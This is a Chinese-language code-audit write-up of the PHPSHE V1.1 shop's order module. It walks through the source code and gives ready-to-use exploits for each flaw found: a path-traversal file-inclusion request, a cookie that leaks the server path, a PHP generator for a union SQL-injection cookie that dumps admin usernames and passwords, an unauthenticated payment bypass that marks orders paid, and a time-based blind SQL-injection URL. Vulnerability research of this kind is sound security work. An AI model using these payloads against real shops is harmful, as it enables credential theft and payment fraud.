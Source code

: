 ## **PHPSHE V1.1 （二）**

### **order.php**
<br >
接下來，我們來看看`order`購物車及訂單模塊。
<br >
大致看一下、購物車列表主要以序列化形式緩存在cookie裏面，第一反應就想到能不能有序列化注入？`選擇支付方式`似乎也存在包含漏洞。
<br >
先看看選擇`支付方式`的包含漏洞的

```php
//Line:106

case 'pay':
    ...
    if (isset($_p_pesubmit)) {
        ...
        include("{$pe['path_root']}include/plugin/payway/{$_p_info['order_payway']}/order_pay.php");
```

此處`$_p_info['order_payway']`可控且未經過濾。

### **【Bug 0x04: 任意文件包含漏洞 有限制條件】**
`POST:/index.php?mod=order&act=pay`
<br >
`DATA:info[order_payway]=../../../robots.txt%00?&pesubmit=1`
<br >
再看看，`訂單增加`操作無需登入就可以對資料庫操作。

```php
//Line:65

case 'add':
    $cart_info = cart_info(unserialize($_c_cart_list));
```

跟進`cart_info()`函數

```php
//Line:135

function cart_info($_c_cart_list=array()) {
    ...
    else {
    if (is_array($_c_cart_list)) {
        foreach ($_c_cart_list as $k => $v) {
            $product_rows = $db->pe_select('product', array('product_id'=>$k), '`product_name`, `product_logo`, `product_smoney`, `product_num` as `product_maxnum`');
            $info_list[] = array_merge($v, $product_rows);
```

這個地方、除了可能有sql注入，同時還有一個亮點

`$info_list[] = array_merge($v, $product_rows);`

函數`array_merge()`錯誤的參數也會導致出現謝謝洩漏的。
<br >
我們任意構造一個錯誤的序列化訂單，例如`a:1:{s:0:"";a:1:{s:11:"product_num";N;}}`
<br >
這是通過空購物車的時候，進行**購物車商品更改數量**操作自動生成的一個錯誤的商品訊息。
<br >
`/index.php?mod=order&act=cartnum`
<br >
然後再次進行任意一個調用到`cart_info()`函數的操作就會發生錯誤並返回錯誤訊息。

### **【Bug 0x05: 訊息洩露 爆路徑】**

URL:
```
/index.php?mod=order&act=cartnum
/index.php?mod=order&act=add
/index.php?mod=order&act=cartdel
```
**Cookie**:`cart_list=a:1:{s:0:"";a:1:{s:11:"product_num";N;}}`

```Warning: array_merge(): Argument #2 is not an array in E:\SourceCodes\phpshe1.1\module\index\order.php on line 148```

現在我們繼續審計是否存在注入。

```php
//Line:142

if (is_array($_c_cart_list)) {
    foreach ($_c_cart_list as $k => $v) {
        $product_rows = $db->pe_select('product', array('product_id'=>$k), '`product_name`, `product_logo`, `product_smoney`, `product_num` as `product_maxnum`');
```

`$k`存在注入。<br>
跟進`pe_select()`函數


```php
//Line:135

public function pe_select($table, $where = '', $field = '*')
    {
        //處理條件語句
        $sqlwhere = $this->_dowhere($where);
        return $this->sql_select("select {$field} from `".dbpre."{$table}` {$sqlwhere} limit 1");
```

再跟進`_dowhere()`函數


```php
//Line:181

//處理條件語句
protected function _dowhere($where)
{
    if (is_array($where)) 
    {
        foreach ($where as $k => $v) 
        {
            if (is_array($v)) 
            {
                $where_arr[] = "`{$k}` in('".implode("','", $v)."')";            
            }
            else 
            {
                in_array($k, array('order by', 'group by')) ? ($sqlby = " {$k} {$v}") : ($where_arr[] = "`{$k}` = '{$v}'");
            }
        }
        $sqlwhere = is_array($where_arr) ? 'where '.implode($where_arr, ' and ').$sqlby : $sqlby;
    }
    else 
    {
        $where && $sqlwhere = (stripos(trim($where), 'order by') === 0 or stripos(trim($where), 'group by') === 0) ? "{$where}" : "where 1 {$where}";
    }
    return $sqlwhere;
}
```

來自`$_c_cart_list`的`$k`未經過濾被帶入sql語句中，導致where條件注入。
<br >
這時，我們可以構造一個特殊的序列化購物車訂單，利用union任意查詢資料庫內容。
<br >
PHP_生成POC

```php
<?php
$b["'union select admin_name,2,3,4 from pe_admin -- -"][0] = '1\'';
$b["'union select admin_pw,2,3,4 from pe_admin -- -"][1] = '1\'';
$s = serialize($b);
print_r($s);
?>
```


### **【Bug 0x06: SQL注入 任意查詢】**

URL:`/index.php?mod=order&act=add`

Cookie:
<br>
```a:2:{s:49:"'union select admin_name,2,3,4 from pe_admin -- -";a:1:{i:0;s:2:"v'";}s:47:"'union select admin_pw,2,3,4 from pe_admin -- -";a:1:{i:1;s:2:"v'";}}```

兩個商品名稱處分別顯示管理員用戶名和密碼。
回到**訂單增加**操作。

```php
//Line:73-80

$_p_info['order_productmoney'] = $money['order_productmoney'];
$_p_info['order_wlmoney'] = $money['order_wlmoney'];
$_p_info['order_money'] = $money['order_money'];
$_p_info['order_atime'] = time();
$_p_info['user_id'] = $_s_user_id;
$_p_info['user_name'] = $_s_user_name;
$_p_info['user_address'] = "{$_p_province}{$_p_city}{$_p_info['user_address']}";
if ($order_id = $db->pe_insert('order', $_p_info)) {
```

我們用`print_r()`或者`var_dump()`輸出`$_p_info`

```php
Array
(
    [user_address] => 河南省鄭州市測試
    [user_tname] => 姓名
    [user_phone] => 13012345678
    [user_tel] =>
    [order_text] =>
    [order_productmoney] => 133.0
    [order_wlmoney] => 0.0
    [order_money] => 133.0
    [order_atime] => 1461044204
    [user_id] =>
    [user_name] =>
)
```

這時可以發現`user_tname`和`user_phone`和`user_tel`和`order_text`都沒有經過處理，就代入了sql查詢。
<br >
這裡、我們可以利用update注入了。當然，我們沒有登入、無法查看到訂單詳情。
<br >
同時，我們也可以構造其他的參數例如`order_state`,直接修改訂單狀態。

### **【Bug 0x07: 支付繞過】**

URL:
```
/index.php?mod=order&act=add
```

DATA:
```
....
info[order_state]=paid
```

雖然會返回訂單號錯誤，但確實是成功了。
<br >
在登入情況下，該頁面也存在不少注入漏洞。

```php
//Line:34

case 'cartnum':
    $money['order_productmoney'] = $money['order_wlmoney'] = $money['order_money'] = 0;
    if (pe_login('user')) {
        $result = $db->pe_update('cart', array('user_id'=>$_s_user_id, 'product_id'=>$_g_product_id), array('product_num'=>$_g_product_num));
    }
```

`$_g_product_id`和`$_g_product_num`未經顧慮就帶入了sql更新。
<br >

### **【Bug 0x08: SQL注入 Update注入 AND/OR time-based blind 登入限制】**

URL:

```/index.php?mod=order&act=cartnum&product_id=1&product_num=12' AND (SELECT * FROM (SELECT(SLEEP(5)))YfCN) AND 'RShN'='RShN```